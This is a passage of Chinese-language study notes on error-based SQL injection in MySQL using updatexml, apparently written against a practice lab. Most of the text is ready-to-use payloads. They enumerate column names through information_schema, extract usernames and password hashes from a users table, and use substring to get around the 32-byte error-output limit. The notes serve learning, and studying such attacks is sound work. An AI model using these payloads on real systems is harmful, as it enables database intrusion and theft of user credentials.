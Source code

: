 #### 获取列名1

```mysql
1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'  limit 0,1)),1)#
```

#### 获取列名2  

通过改变数字`0`来实现列名的更换

```mysql
username=1csa'  and updatexml (1,concat(0x7e,(select concat(column_name) from information_schema.columns where table_name='users'  limit 0,1)) ,1)or'
```

#### 获取列名3

若是想一次获取多个列名，可以通过group_concat获取，然后通过substr截取

```mysql
payload：username= ' or updatexml(1,substr(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),0,31),0x7e),1) or '

```

#### 获取列字段内容1

```mysql
payload:kobe' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#
```

但是updatexml函数最多输出32个字节。这个时候md5解密是解不出来的，因为~的存在占据一位，密文只有31位，所以substring函数作用就出了，第一位使用subString提取

```mysql
payload:kobe' and updatexml(1,concat(0x7e,substring((select password from users limit 0,1), 32)),0)#




这个只能获取前31位，第三十二位要把1变成32
username=kobe' or updatexml(1,concat(0x7e,substring((select password from users limit 0,1),1, 32)),0) or'
```

#### 获取字段内容2（更重要）

```mysql
这个更惨，只能或取一部分，因为concat位数不够，username代表和password代表占了一部分位置
username= ' or updatexml(1,concat(0x7e,(select concat(username,';',password) from users limit 0,1)),1) or '
```



## 三、文件分离
